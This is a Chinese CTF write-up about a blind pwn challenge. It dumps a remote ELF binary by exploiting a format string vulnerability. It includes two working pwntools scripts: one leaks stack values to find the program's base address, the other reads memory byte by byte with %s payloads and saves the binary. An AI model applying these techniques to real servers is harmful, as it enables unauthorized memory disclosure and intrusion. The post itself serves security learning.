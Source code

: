 ```yaml
---
title: Dump ELF With Format String Vulnerability
date: 2017-06-04 23:25:37
categories: pwn
---
```


# 使用格式化串攻击来dump服务器上的程序
之前一直以为fmt能泄漏的的就是canary了，直到这次pwnhub遇到没有给样本程序的pwn比赛。这里先泄漏程序，再去分析程序写exp，拿到服务器权限。
<!-- more -->
> - by hook

## blind pwn

只给了一个远程地址`54.223.254.123:701`,连接后发现只是简单的输入输出交互，测试%p发现是64位的环境。

## 信息泄漏
### <1>. 尝试固定地址泄漏
先写exp尝试泄漏固定地址处的内容，发现并没有拿到程序头部'ELF'标示字符串，怀疑是开启了PIE，导致了程序映射的地址都是随机的。


### <2>. 栈信息泄漏
这里开始泄漏栈信息，来推测出程序的加载地址。

```
#!/usr/bin/python

from pwn import *
from binascii import *

#64bit

f = open('./stack_info.txt', 'w')

index = 0x1
while index < 220:
    try: 
        p = remote("54.223.254.123", 701)
        p.recvuntil('something:')
        payload = '%'+str(index)+'$#p'
        p.sendline(payload)
        p.recvuntil('interesting:')
        result_str = p.recv()
        if result_str == '(nil)':
            result_str = '0x0'
        resstr = '{:016x}'.format(int(result_str, 16))
        f.write(resstr+'\n')
        index += 1
    except Exception:
        print("index = " + str(index))
        log.warning("got exception...", exc_info = sys.exc_info())
        break
f.close()
```

从返回的栈信息推测程序是加载在`0x557a143d0000`附近
经反复测试后得到程序是加载在`0x557a143d2000`处。
`（这里地址为什么会固定我也没明白，但他人说是因为它虽然开了PIE, 但没开ASLR, 导致了PIE的功能缺失，地址固定下来了）`

### <3>. 格式化偏移地址确定
根据%p来确定偏移量

### <4>. dump ELF
接着从上文得到的地址处开始dump ELF

```
#!/usr/bin/python

# -*- coding: utf-8 -*-

from pwn import *
def leakELF(addr):
    p = None
    for i in range(5):
        try:
            p = remote("54.223.254.123", 701, timeout=1)
            payload = "aaaabb__%9$s__EN" + p64(addr)
            #if ("\x0a" in payload) or ("\x00" in payload):
            #    log.warning("newline in payload!")
            #    return "\xff"
            p.recvuntil('something:')
            p.sendline(payload)
            p.recvuntil('interesting:')
            data2 = p.recv()
            log.info(hexdump(data2))
            if data2:
                fr = data2.find("bb__") + 4
                to = data2.find("__EN")
                res = data2[fr:to]
                if res == "":
                    return "\x00"
                else:
                    return res
            return "\xff"
        except KeyboardInterrupt:
            raise
        except EOFError:
            log.debug("got EOF for leaking addr 0x{:x}".format(addr))
            pass
        except Exception:
            log.warning("got exception...", exc_info = sys.exc_info())
        finally:
            if p:
                p.close()
    return "\xff"

f = open("dumpFile", "wb")
base = 0x557a143d2000
leaked = ""
while len(leaked) < 8300:
    address = base + len(leaked)
    tmp = leakELF(address)
    leaked += tmp
    log.info(hexdump(leaked))
    with open("dumpFile", "wb") as f:
        f.write(leaked)
```
![](/images/Dump ELF With Format String Vulnerability/dumpELFs.gif)

## 程序分析
可以看到dump出的程序可以正常分析，接着就是分析漏洞，编写exp，获取服务器shell了。
![](/images/Dump ELF With Format String Vulnerability/leakELF.png)


